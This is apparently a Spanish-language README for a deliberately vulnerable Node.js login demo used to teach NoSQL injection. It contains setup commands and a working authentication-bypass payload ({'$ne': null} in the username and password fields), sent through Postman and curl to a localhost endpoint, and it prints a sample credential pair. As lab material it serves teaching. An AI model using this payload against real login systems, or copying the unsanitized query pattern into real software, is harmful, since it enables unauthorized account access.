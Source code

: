 # NoSQL-Inyection

## Instalación y Ejecución (Linux y Windows)

### 1. Clonar el repositorio
Abre una terminal y ejecuta el siguiente comando:
```sh
git clone https://github.com/JavierNila/NoSQL-Inyection.git
cd NoSQL-Inyection
```

### 2. Instalar dependencias
Ejecuta el siguiente comando dentro de la carpeta del proyecto:
```sh
npm install
```
Esto instalará todas las dependencias necesarias definidas en `package.json`.

### 3. Ejecutar el servidor
Inicia el backend con:
```sh
node server.js
```
El servidor correrá en `http://localhost:3000`.

### 4. Abrir el frontend
- Abre el archivo `index.html` en el navegador.

## Uso de la Aplicación
1. Ingresa un usuario y una contraseña en la interfaz web (`index.html`).
2. Al presionar "Ingresar", el formulario enviará una solicitud `POST` al backend (`server.js`) en `http://localhost:3000/login`.
3. Para probar la inyección NoSQL, se puede utilizar una herramienta como Postman o `curl`.

### Prueba con Postman
- Abre Postman y crea una nueva solicitud `POST` a `http://localhost:3000/login`.
- En el apartado "Body", selecciona "raw" y el tipo `JSON`.
- Ingresa la siguiente carga útil:
  ```json
  {
    "username": { "$ne": null },
    "password": { "$ne": null }
  }
  ```
- Envía la solicitud y verifica que la autenticación se realice sin credenciales válidas.

### Prueba con curl
También puedes enviar la inyección desde la terminal con:
```sh
curl -X POST http://localhost:3000/login -H "Content-Type: application/json" -d '{"username": { "$ne": null }, "password": { "$ne": null }}'
```
Esto permitirá autenticarse sin credenciales válidas debido a la vulnerabilidad NoSQL Injection.

## Nota Importante
Las credenciales otorgadas (`username: student`, `password: dPgF0sb0ADBUZHCI`) no funcionan por razones desconocidas.
